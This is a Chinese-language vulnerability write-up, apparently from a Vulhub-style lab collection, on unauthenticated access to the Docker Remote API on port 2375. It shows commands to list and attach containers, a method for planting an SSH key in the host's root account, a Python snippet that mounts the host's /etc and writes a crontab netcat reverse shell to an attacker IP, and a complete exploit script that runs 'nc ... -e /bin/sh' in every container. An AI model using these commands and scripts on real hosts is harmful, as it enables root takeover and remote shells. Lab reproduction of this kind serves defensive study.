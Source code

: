 # Docker daemon api 未授权访问漏洞 RCE

## 漏洞描述

Docker 是一个开源的应用容器引擎，让开发者可以打包应用及依赖包到一个轻量级、可移植的容器中，然后发布到 Linux 机器上，也可以实现虚拟化。Docker swarm 是 Docker 的集群管理工具，提供了标准的 Docker API。

在使用 Docker swarm 的时候，管理的 Docker节点上会开放一个 TCP 端口 2375，绑定在 0.0.0.0 上，直接 HTTP 访问会返回 “404 Not Found”。可以通过该 API 执行 Docker 命令，例如创建/删除 container、拉取 image、执行反弹 shell。

参考链接：

- [http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8](http://www.loner.fm/drops/#!/drops/1203.新姿势之Docker Remote API未授权访问漏洞分析和利用)

## 环境搭建

Vulhub编译及启动漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，将监听2375端口。

## 漏洞复现

### 执行命令

列出所有镜像：

```
docker -H tcp://your-ip:2375 images
```

列出所有容器：

```
docker -H tcp://your-ip:2375 ps -a
```

启动一个已经停止的容器：

```
docker -H tcp://your-ip:2375 start <container ID>
```

连接一个已经停止的容器：

```
docker -H tcp://your-ip:2375 attach <container ID>
```

### 获取权限

#### 写入 ssh 公钥

启动一个容器，挂载宿主机的 `/root` 目录，之后将攻击者的 ssh 公钥 `~/.ssh/id_rsa.pub` 的内容写到入宿主机的 `/root/.ssh/authorized_keys` 文件中，之后就可以用 root 账户直接登录了。

本地获取 ssh 公钥：

```
ssh-keygen -t rsa
```

#### 反弹 shell

随意启动一个容器，并将宿主机的`/etc`目录挂载到容器中，便可以任意读写文件了。可以将命令写入crontab配置文件，进行反弹shell。

```
import docker

client = docker.DockerClient(base_url='http://[docker ip]:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc [your ip] 2333 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

监听2333端口，接收反弹shell。

此处的反弹shell需要和/etc/crontabs/root文件同时写入，不能后续追加。

![image-20220222182515581](./images/202202221825647.png)

## 漏洞EXP

```python
from __future__ import print_function
import requests
import logging
import json
import urllib.parse

# NOTE
# Enable Remote API with the following command
# /usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
# This is an intended feature, remember to filter the port 2375..

name          = "docker"
description   = "Docker RCE via Open Docker API on port 2375"
author        = "Swissky"

# Step 1 - Extract id and name from each container
ip   = "127.0.0.1"
port = "2375"
data = "containers/json"
url  = "http://{}:{}/{}".format(ip, port, data)
r = requests.get(url)

if r.json:
    for container in r.json():
        container_id   = container['Id']
        container_name = container['Names'][0].replace('/','')
        print((container_id, container_name))

        # Step 2 - Prepare command
        cmd = '["nc", "192.168.1.2", "4242", "-e", "/bin/sh"]'
        data = "containers/{}/exec".format(container_name)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":'+cmd+' }'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))


        # Step 3 - Execute command
        id_cmd = r.json()['Id']
        data = "exec/{}/start".format(id_cmd)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "Detach":false,"Tty":false}'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))
        print(r)
```

